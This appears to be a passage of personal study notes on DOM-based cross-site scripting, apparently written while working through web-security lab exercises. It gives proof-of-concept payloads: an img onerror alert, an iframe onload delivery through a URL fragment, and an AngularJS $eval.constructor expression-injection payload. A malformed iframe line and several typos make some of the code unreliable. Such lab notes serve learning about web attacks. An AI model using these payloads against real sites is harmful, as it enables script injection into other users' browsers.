 We can attach it to the page. So we can assign a parent node to it from the page. Example:

```js
var mynode = document.getElementById('academyLabHeader')

mynode.appendChild(post)
```
**In this example we have atached an arbitrary DOM element to the DOM of the page. This element in this example contains a title ```<h1>``` but it can be everything**.


Exploit:

```js
<img src="0x0x" onerror=alert('XSS')>
```

An we will pass this exploit after the "#” in the URL. 

We can share it by sending the url putting it inside an ```<iframe>```:

```html
<iframe src="WEBPAGEURL/#"> onload="this.src+='<img src=0 onerror=print()'"></iframe>
```


# DOM XSS in AngularJS

JavScript's frameworks sometimes evaluate expressions contained in ```{{ }}```. So, in a webpage we can try to input something like: ```{{ 1 + 1}}```.


Malicious payload:
```js
{{ $eval.constructor('alert()')()}}
```

Basic angular HTML page:

```html
<!DOCTYPE html>
<html>
    <head>
        <script src="https://ajax.googleapis.com/ajax/libs/angularjs/1.8.2/angular.min.js"></script>
    </head>

    <body ng-app="myApp" ng-controller="myCtrl">
        {{firstName}}
        {{ 1+1 }}
    </body>

    <script>
        var app = angular.module('myApp', []);
        app.controller('myctrl', function($scope){
            $scope.firstName = 'Adam';
        });
    </script>
</html>
```
